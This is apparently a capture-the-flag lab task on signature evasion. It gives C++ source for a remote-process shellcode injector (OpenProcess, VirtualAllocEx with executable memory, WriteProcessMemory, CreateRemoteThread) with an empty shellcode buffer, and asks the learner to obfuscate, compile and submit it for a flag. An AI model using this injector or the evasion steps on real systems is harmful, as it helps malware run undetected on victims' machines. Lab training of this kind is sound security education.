 Several other properties should be considered before actively using a tool, such as entropy or hash. These concepts are covered in task 5 of the [Signature Evasion room](https://tryhackme.com/room/signatureevasion).

Using the knowledge you have accrued throughout this task, remove any meaningful identifiers or debug information from the C++ source code below using the AttackBox or your own virtual machine.

Once adequately obfuscated and stripped compile the source code using `MingW32-G++` and submit it to the webserver at `http://MACHINE_IP/`.

Note: the file name must be `challenge-8.exe` to receive the flag.

```
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    string leaked = "This was leaked in the strings";

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    cout << "Handle obtained for" << processHandle;
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    cout << "Buffer Created";
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    cout << "Process written with buffer" << remoteBuffer;
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);
    cout << "Closing handle" << processHandle;
    cout << leaked;

    return 0;
} 
```

### Answer the questions below

* What flag is found after uploading a properly obfuscated snippet?

    ![task8-code](./images/task8-code.png)